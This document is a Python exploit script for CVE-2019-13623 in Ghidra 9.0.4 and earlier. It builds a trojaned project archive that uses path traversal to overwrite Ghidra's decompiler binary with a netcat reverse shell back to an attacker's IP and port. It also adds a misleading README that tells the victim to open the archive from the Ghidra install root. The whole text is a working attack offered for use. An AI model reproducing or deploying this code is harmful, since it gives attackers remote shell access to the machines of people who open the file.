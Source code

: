 EXP
---

    import os
    import inspect
    import argparse
    import shutil
    from shutil import copyfile

    print("")
    print("")
    print("################################################")
    print("")
    print("------------------CVE-2019-13623----------------")
    print("")
    print("################################################")
    print("")
    print("-----------------Ghidra-Exploit-----------------")
    print("--Tested version: Ghidra Linux version <= 9.0.4-")
    print("------------------------------------------------")
    print("")
    print("################################################")
    print("")
    print("----------Exploit by: Etienne Lacoche-----------")
    print("---------Contact Twitter: @electr0sm0g----------")
    print("")
    print("------------------Discovered by:----------------")
    print("---------https://blog.fxiao.me/ghidra/----------")
    print("")
    print("--------Exploit tested on Ubuntu 18.04----------")
    print("-----------------Dependency: zip----------------")
    print("")
    print("################################################")
    print("")
    print("")

    parser = argparse.ArgumentParser()
    parser.add_argument("file", help="Path to input export .gar file",default=1)
    parser.add_argument("ip", help="Ip to nc listener",default=1)
    parser.add_argument("port", help="Port to nc listener",default=1)

    args = parser.parse_args()

    if args.ip and args.port and args.file:

        rootDirURL=os.path.dirname(os.path.abspath(inspect.getfile(inspect.currentframe())))
        path = "../Ghidra/Features/Decompiler/os/linux64/decompile"
        os.system("mkdir -p ../Ghidra/Features/Decompiler/os/linux64/")
        os.system("echo 'rm -f x; mknod x p && nc "+args.ip+" "+args.port+" 0<x | /bin/bash 1>x' > decompile")
        os.system("chmod +x decompile")
        copyfile("decompile",path)
        copyfile(args.file,rootDirURL+"/"+"project.gar")
        os.system("zip -q project.gar ../Ghidra/Features/Decompiler/os/linux64/decompile")
        os.system("echo 'To fully export this archive, place project.gar to GHIDRA_INSTALL_DIR root path and open it with Restore Project at Ghidra.' > README_BEFORE_OPEN_GAR_FILE")
        os.system("zip -q project.zip README_BEFORE_OPEN_GAR_FILE")
        os.system("zip -q project.zip project.gar")
        os.system("rm decompile README_BEFORE_OPEN_GAR_FILE")
        os.system("rm project.gar")
        print("You can now share project.zip and start your local netcat listener.")
        print("")
        print("Project.gar must be placed and opened by victim at GHIDRA_INSTALL_DIR")
        print("root path for payload execution.")
        print("")
